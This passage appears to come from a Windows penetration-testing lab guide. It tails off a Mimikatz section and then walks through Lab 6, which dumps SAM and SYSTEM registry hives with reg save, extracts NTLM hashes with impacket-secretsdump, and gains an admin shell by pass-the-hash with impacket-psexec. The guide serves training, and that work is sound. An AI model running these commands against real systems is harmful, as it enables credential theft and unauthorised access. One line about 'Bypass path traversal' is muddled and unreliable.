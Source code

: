 #### Alternatives
- TO-DO

#### Resources
- [Mimikatz Documentation: https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

#### Notes
- Run Mimikatz with elevated privileges (e.g debug) to access LSASS.
- Install or download evil-winrm if not available.

---

### Lab 6: Dump SAM Credentials from SAM and System Database
#### Objective
Extract credentials from the SAM and SYSTEM registry hives on a Windows machine.

#### Vulnerabilities
- SAM Database Exposure: Password hashes in SAM can be extracted with  access.

#### Requirements
Target Windows machine must be accessible with a user with limited permissions.

#### Steps
1. **Setup**
   - Connect to the machine via xfreerdp or xfreerdp3.
   ```bash
    xfreerdp /u:<USER> /p:'<PASSWORD>' /compression /bpp:16 /v:<WORKSTATION_IP> /wallpaper /themes /window-drag 
/menu-anims /fonts /compression /rfx /rfx-mode:video /w:1024 /h:768 /network:auto /dynamic-resolution /drive:home,$(pwd)/www
   ```

2. **Check if vulnerable**
   - Verify the privileges of the user in a powershell console. 
   ```bash
   whoami /priv
   ```
   - If Bypass path traversal is enabled, then it vulnerable.
3. **Exploitation**
   - Dump the sam and system database
   ```bash
   $ reg save HKLM\sam sam
   $ reg save HKLM\system system
   ```
   - Copy the sam and system files to your kali machine using shared folder or updog webserver or drag and drop.
   - Dump SAM and SYSTEM hives using Impacket.
   ```bash
   impacket-secretsdump -sam <PATH_TO_SAM> -system <PATH_TO_SYSTEM> LOCAL
   ```
   - You will obtain the NTLM hashes for some users including Administrator. Use psexec to obtain an admin shell with the hashes, then find the flag in the desktop.
   ```bash
   impacket-psexec -hashes :<ADMIN_PASSWORD_HASH> Administrator@<WORKSTATION_IP>
   ```
#### Why It Works
The SAM database stores user credential hashes, which can be extracted with misconfigured user privileges for offline cracking or direct login.
